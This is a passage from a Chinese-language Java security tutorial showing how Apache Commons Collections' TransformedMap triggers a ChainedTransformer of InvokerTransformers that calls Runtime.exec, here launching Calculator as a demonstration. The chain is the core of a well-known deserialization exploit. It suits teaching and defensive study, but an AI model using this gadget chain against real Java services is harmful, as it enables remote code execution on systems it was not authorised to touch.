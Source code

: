 只要调用`TransformedMap`的`setValue/put/putAll`中的任意方法都会调用`InvokerTransformer`类的`transform`方法，从而也就会触发命令执行。

**使用`TransformedMap`类的setValue触发transform示例：**

```java
package com.anbai.sec.serializes;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class TransformedMapTest {

	public static void main(String[] args) {
		String cmd = "open -a Calculator.app";

		Transformer[] transformers = new Transformer[]{
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[]{
						String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
				),
				new InvokerTransformer("invoke", new Class[]{
						Object.class, Object[].class}, new Object[]{null, new Object[0]}
				),
				new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
		};

		// 创建ChainedTransformer调用链对象
		Transformer transformedChain = new ChainedTransformer(transformers);

		// 创建Map对象
		Map map = new HashMap();
		map.put("value", "value");

		// 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
		Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

		// transformedMap.put("v1", "v2");// 执行put也会触发transform

		// 遍历Map元素，并调用setValue方法
		for (Object obj : transformedMap.entrySet()) {
			Map.Entry entry = (Map.Entry) obj;

			// setValue最终调用到InvokerTransformer的transform方法,从而触发Runtime命令执行调用链
			entry.setValue("test");
		}

		System.out.println(transformedMap);
	}

}
```
